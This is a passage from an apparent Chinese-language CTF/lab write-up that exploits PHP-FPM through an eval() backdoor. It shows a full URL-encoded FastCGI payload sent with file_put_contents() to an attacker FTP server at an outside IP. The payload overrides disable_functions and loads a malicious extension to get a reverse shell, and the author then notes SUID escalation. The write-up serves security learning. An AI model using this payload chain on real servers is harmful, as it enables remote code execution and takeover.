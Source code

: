 ![image-20210502101332465](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f45822307223e6551f82acfa8f88f071df7bd169.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的shell：

![image-20210502101433135](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8f3514884463b10463aafdb3870fe094d19edee8.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```php
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹Shell：

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0c85aac62c7952204938643ed98d0c5fd4405767.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

未完待续......
----------

> 参考：
> 
> <https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html>
> 
> [https://www.cnblogs.com/itbsl/p/9828776.html#web-服务器和-fastcgi-交互过程](https://www.cnblogs.com/itbsl/p/9828776.html#web-%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%92%8C-fastcgi-%E4%BA%A4%E4%BA%92%E8%BF%87%E7%A8%8B)
> 
> <https://xz.aliyun.com/t/5598#toc-4>
> 
> <https://bbs.ichunqiu.com/thread-58455-1-1.html>
> 
> <https://github.com/adoy/PHP-FastCGI-Client>
> 
> <https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75>
> 
> [https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php)
> 
> <https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/php-fastcgi-remote-exploit.md>